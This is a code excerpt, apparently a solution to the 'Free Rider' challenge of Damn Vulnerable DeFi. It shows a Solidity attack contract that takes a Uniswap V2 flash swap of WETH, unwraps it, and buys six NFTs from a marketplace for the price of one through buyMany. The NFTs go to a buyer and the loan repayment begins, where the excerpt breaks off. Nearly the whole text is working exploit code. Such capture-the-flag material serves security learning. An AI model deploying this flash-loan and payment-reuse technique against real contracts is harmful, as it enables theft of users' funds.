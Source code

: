 ```apache
        damnToken = _damnToken;
        marketplace = _marketplace;
        buyer = _buyer;
    }

    event Log(string message, uint val);

    function attack() external {
        uint amount = 16 * 10 ** 18; //the amount to buy one NFT
        address pair = IUniswapV2Factory(factory).getPair(damnToken, weth);
        require(pair != address(0), "!pair");

        address token0 = IUniswapV2Pair(pair).token0();
        address token1 = IUniswapV2Pair(pair).token1();
        uint amount0Out = weth == token0 ? amount : 0;
        uint amount1Out = weth == token1 ? amount : 0;

        // need to pass some data to trigger uniswapV2Call
        bytes memory data = abi.encode(weth, amount);

        IUniswapV2Pair(pair).swap(amount0Out, amount1Out, address(this), data);
    }

    // called by pair contract
    function uniswapV2Call(address _sender, uint _amount0, uint _amount1, bytes calldata _data) external override {
        address token0 = IUniswapV2Pair(msg.sender).token0();
        address token1 = IUniswapV2Pair(msg.sender).token1();
        address pair = IUniswapV2Factory(factory).getPair(token0, token1);
        require(msg.sender == pair, "!pair");
        require(_sender == address(this), "!sender");

        (address tokenBorrow, uint amount) = abi.decode(_data, (address, uint));

        // about 0.3%
        uint fee = ((amount * 3) / 997) + 1;
        uint amountToRepay = amount + fee;

        //LOG
        console.log("amount", amount);
        console.log("amount0", _amount0);
        console.log("amount1", _amount1);
        console.log("fee", fee);
        console.log("amount to repay", amountToRepay);

        //change weth to eth
        IWETH9(tokenBorrow).withdraw(16 * 10 ** 18);

        //Here I do my exploit.
        uint[] memory tokenIds = new uint[](6);
        for (uint256 i; i < 6; i++) {
            tokenIds[i] = i;
        }

        marketplace.buyMany{value: 15 * 10 ** 18}(tokenIds);

        for (uint256 i = 0; i < 6; i++) {
            marketplace.token().safeTransferFrom(address(this), address(buyer), i);
        }

        //change eth to weth
        IWETH9(tokenBorrow).deposit{value: amountToRepay}();

```